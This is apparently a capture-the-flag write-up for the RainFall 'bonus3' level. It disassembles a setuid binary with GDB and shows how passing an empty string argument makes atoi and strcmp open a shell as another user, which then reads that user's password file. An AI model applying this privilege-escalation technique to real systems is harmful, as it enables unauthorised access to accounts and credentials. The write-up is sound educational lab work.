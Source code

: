 # Bonus3

## Walkthrough

We list the files in the current home directory.

```bash
bonus3@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 bonus3 bonus3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus3 bonus3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus3 bonus3 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 bonus3 bonus3   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus3 bonus3  675 Apr  3  2012 .profile
-rwsr-s---+ 1 end    users  5595 Mar  6  2016 bonus3
bonus3@RainFall:~$ file bonus3 
bonus3: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x530d693450de037e44d1186904401c8f8064874b, not stripped
```

The file is owned by **end** and has the setuid bit.

We list the functions in the executable with **GDB**.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0804836c  _init
0x080483b0  strcmp
0x080483b0  strcmp@plt
0x080483c0  fclose
0x080483c0  fclose@plt
0x080483d0  fread
0x080483d0  fread@plt
0x080483e0  puts
0x080483e0  puts@plt
0x080483f0  __gmon_start__
0x080483f0  __gmon_start__@plt
0x08048400  __libc_start_main
0x08048400  __libc_start_main@plt
0x08048410  fopen
0x08048410  fopen@plt
0x08048420  execl
0x08048420  execl@plt
0x08048430  atoi
0x08048430  atoi@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  main
0x08048620  __libc_csu_init
0x08048690  __libc_csu_fini
0x08048692  __i686.get_pc_thunk.bx
0x080486a0  __do_global_ctors_aux
0x080486cc  _fini
```

There is only 1 user defined functions: `main()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484f4 <+0>:     push   ebp
   0x080484f5 <+1>:     mov    ebp,esp
   0x080484f7 <+3>:     push   edi
   0x080484f8 <+4>:     push   ebx
   0x080484f9 <+5>:     and    esp,0xfffffff0
   0x080484fc <+8>:     sub    esp,0xa0
   0x08048502 <+14>:    mov    edx,0x80486f0
   0x08048507 <+19>:    mov    eax,0x80486f2
   0x0804850c <+24>:    mov    DWORD PTR [esp+0x4],edx
   0x08048510 <+28>:    mov    DWORD PTR [esp],eax
   0x08048513 <+31>:    call   0x8048410 <fopen@plt>
   0x08048518 <+36>:    mov    DWORD PTR [esp+0x9c],eax
   0x0804851f <+43>:    lea    ebx,[esp+0x18]
   0x08048523 <+47>:    mov    eax,0x0
   0x08048528 <+52>:    mov    edx,0x21
   0x0804852d <+57>:    mov    edi,ebx
   0x0804852f <+59>:    mov    ecx,edx
   0x08048531 <+61>:    rep stos DWORD PTR es:[edi],eax
   0x08048533 <+63>:    cmp    DWORD PTR [esp+0x9c],0x0
   0x0804853b <+71>:    je     0x8048543 <main+79>
   0x0804853d <+73>:    cmp    DWORD PTR [ebp+0x8],0x2
   0x08048541 <+77>:    je     0x804854d <main+89>
   0x08048543 <+79>:    mov    eax,0xffffffff
   0x08048548 <+84>:    jmp    0x8048615 <main+289>
   0x0804854d <+89>:    lea    eax,[esp+0x18]
   0x08048551 <+93>:    mov    edx,DWORD PTR [esp+0x9c]
   0x08048558 <+100>:   mov    DWORD PTR [esp+0xc],edx
   0x0804855c <+104>:   mov    DWORD PTR [esp+0x8],0x42
   0x08048564 <+112>:   mov    DWORD PTR [esp+0x4],0x1
   0x0804856c <+120>:   mov    DWORD PTR [esp],eax
   0x0804856f <+123>:   call   0x80483d0 <fread@plt>
   0x08048574 <+128>:   mov    BYTE PTR [esp+0x59],0x0
   0x08048579 <+133>:   mov    eax,DWORD PTR [ebp+0xc]
   0x0804857c <+136>:   add    eax,0x4
   0x0804857f <+139>:   mov    eax,DWORD PTR [eax]
   0x08048581 <+141>:   mov    DWORD PTR [esp],eax
   0x08048584 <+144>:   call   0x8048430 <atoi@plt>
   0x08048589 <+149>:   mov    BYTE PTR [esp+eax*1+0x18],0x0
   0x0804858e <+154>:   lea    eax,[esp+0x18]
   0x08048592 <+158>:   lea    edx,[eax+0x42]
   0x08048595 <+161>:   mov    eax,DWORD PTR [esp+0x9c]
   0x0804859c <+168>:   mov    DWORD PTR [esp+0xc],eax
   0x080485a0 <+172>:   mov    DWORD PTR [esp+0x8],0x41
   0x080485a8 <+180>:   mov    DWORD PTR [esp+0x4],0x1
   0x080485b0 <+188>:   mov    DWORD PTR [esp],edx
   0x080485b3 <+191>:   call   0x80483d0 <fread@plt>
   0x080485b8 <+196>:   mov    eax,DWORD PTR [esp+0x9c]
   0x080485bf <+203>:   mov    DWORD PTR [esp],eax
   0x080485c2 <+206>:   call   0x80483c0 <fclose@plt>
   0x080485c7 <+211>:   mov    eax,DWORD PTR [ebp+0xc]
   0x080485ca <+214>:   add    eax,0x4
   0x080485cd <+217>:   mov    eax,DWORD PTR [eax]
   0x080485cf <+219>:   mov    DWORD PTR [esp+0x4],eax
   0x080485d3 <+223>:   lea    eax,[esp+0x18]
   0x080485d7 <+227>:   mov    DWORD PTR [esp],eax
   0x080485da <+230>:   call   0x80483b0 <strcmp@plt>
   0x080485df <+235>:   test   eax,eax
   0x080485e1 <+237>:   jne    0x8048601 <main+269>
   0x080485e3 <+239>:   mov    DWORD PTR [esp+0x8],0x0
   0x080485eb <+247>:   mov    DWORD PTR [esp+0x4],0x8048707
   0x080485f3 <+255>:   mov    DWORD PTR [esp],0x804870a
   0x080485fa <+262>:   call   0x8048420 <execl@plt>
   0x080485ff <+267>:   jmp    0x8048610 <main+284>
   0x08048601 <+269>:   lea    eax,[esp+0x18]
   0x08048605 <+273>:   add    eax,0x42
   0x08048608 <+276>:   mov    DWORD PTR [esp],eax
   0x0804860b <+279>:   call   0x80483e0 <puts@plt>
   0x08048610 <+284>:   mov    eax,0x0
   0x08048615 <+289>:   lea    esp,[ebp-0x8]
   0x08048618 <+292>:   pop    ebx
   0x08048619 <+293>:   pop    edi
   0x0804861a <+294>:   pop    ebp
   0x0804861b <+295>:   ret
End of assembler dump.
```

The `main()` function:
- calls `fopen("/home/user/end/.pass", "r")`
- iterates 33 times from `[esp + 0x18]`, 4 bytes by 4 bytes, to set the bytes to 0
- quits the program if `argc` is not equal to 2
- calls `fread()` to store the content of the opened file into `[esp + 0x18]` up to 66 bytes
- sets the `[esp + 0x59]` byte to 0 (the 66th byte previously stored)
- calls `atoi()` with `argv[1]` and uses the converted integer as an index to set a byte to 0 on the stack
- calls `fread()` to store the remaining content of the opened file into `[esp + 0x18 + 0x42]` up to 65 bytes
- calls `fclose()` to close the file pointer
- calls `strcmp()` to compare `argv[1]` with the stored string in `[esp + 0x18]` and calls `execl("/bin/sh")` if the return value is 0
- calls `puts()`, if the previous comparison does not return 0, to write the string stored in `[esp + 0x18 + 0x42]`

We draw a diagram of the stack.

![Diagram of the stack](./resources/bonus3_diagram1.png)

From our analysis of the ASM, we figure out that we must succeed in executing the `execl()` in order to complete this level.  
Using the `puts()` function is useless because it reads from the second buffer, which is not gonna contain the start of the password.

The only way to pass the `strmcp()` condition is to compare it with a `\0` character since the function is comparing from `[esp + 0x18]` and `argv[1]` is being used as an index to store 0 somewhere in the stack, from this buffer. If we pass 0 as `argv[1]`, then `[esp + 0x18]` is gonna be equal to 0, but not the value of `argv[1]` because 0 in ASCII is equal to 0, which means we still won't pass the condition.

We seek some information about `atoi()` on the web and one sentence catches our attention:
> If the first sequence of non-whitespace characters in str is not a valid integral number, or if no such sequence exists because either str is empty or it contains only whitespace characters, no conversion is performed and zero is returned.

If we pass `""` as `argv[1]`, then `atoi()` will convert it to 0, and the empty string will only contain a `\0` character, which is gonna be equal to the 0 byte when comparing strings.

```bash
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

## Resources

- [null in atoi converts the value to 0](https://stackoverflow.com/questions/24862360/null-in-atoi-converts-the-value-to-0)
